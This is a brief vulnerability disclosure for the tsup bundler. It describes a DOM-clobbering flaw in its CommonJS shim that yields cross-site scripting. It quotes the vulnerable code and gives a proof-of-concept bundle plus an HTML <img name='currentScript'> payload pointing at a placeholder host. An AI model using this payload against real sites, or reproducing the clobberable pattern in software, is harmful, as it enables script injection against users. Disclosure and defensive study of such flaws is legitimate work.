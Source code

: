 ## tsup

### Meta

+ Library: tsup
+ Stars: 8.9K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Version: v8.3.4
+ Status: Reported
+ Security Policy: Requested
+ Foundby: TheHulk

### Library

https://github.com/egoist/tsup

### Vulnerable Code Snippet

```javascript
// node_modules/tsup/assets/cjs_shims.js
var getImportMetaUrl = () => typeof document === "undefined" ? new URL(`file:${__filename}`).href : document.currentScript && document.currentScript.src || new URL("main.js", document.baseURI).href;
var importMetaUrl = /* @__PURE__ */ getImportMetaUrl();
```

## PoC

as an example, bundle the js below.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="dist/index.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```

